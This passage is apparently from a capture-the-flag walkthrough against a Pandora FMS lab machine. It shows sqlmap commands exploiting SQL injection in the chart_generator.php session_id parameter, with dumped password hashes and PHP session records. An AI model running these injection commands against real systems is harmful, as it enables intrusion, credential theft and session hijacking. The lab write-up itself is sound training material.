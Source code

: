 ```bash
| tvisual_console_elements_cache     |
| twidget                            |
| twidget_dashboard                  |
+------------------------------------+
```

Here on I found interesting table called `tpassword_history` which I managed to dump.  

```bash
┌──(herc㉿kali)-[~]
└─$ sqlmap --url="127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" --batch -D pandora -T tpassword_history --dump

...[SNIP]...

+---------+---------+---------------------+----------------------------------+---------------------+
| id_pass | id_user | date_end            | password                         | date_begin          |
+---------+---------+---------------------+----------------------------------+---------------------+
| 1       | matt    | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
| 2       | daniel  | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
| 3       | uwusama | 0000-00-00 00:00:00 | 174a3f4fa44c7bb22b3b6429cb4ea44c | 2022-03-25 09:04:43 |
+---------+---------+---------------------+----------------------------------+---------------------+
```

But this didn't seem like I am supposed to do so since I couln't crack them nor login there  
was one more interesting table called `tsessions_php` so I dumped that next.  

```bash
┌──(herc㉿kali)-[~]
└─$ `sqlmap --url="127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" --batch -D pandora -T tsessions_php --dump`

...[SNIP]...

+----------------------------+--------------------------------------------------------------------------------------------------------------------------------+-------------+
| id_session                 | data                                                                                                                           | last_active |
+----------------------------+--------------------------------------------------------------------------------------------------------------------------------+-------------+
| 08js3gd2m4onhs2vm539ieqhic | NULL                                                                                                                           | 1648194248  |
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                                                                                                       | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                                                                                           | 1638789018  |
| 0sj46b97em8uq9tr1nuvj8femk | NULL                                                                                                                           | 1648200001  |
| 12k9d7bg0u7kq0llmu5bvm4j6v | NULL                                                                                                                           | 1648220051  |
| 14voq2vee2hk3kimmt6qtg5sgp | NULL                                                                                                                           | 1648220035  |
| 1dmjipe16olo2sr1k6ha7slvmh | id_usuario|s:6:"daniel";                                                                                                       | 1648194233  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                                                                                           | 1638792211  |
| 22kotk0ki2rkb6kmh61ma3q8l8 | NULL                                                                                                                           | 1648208265  |
```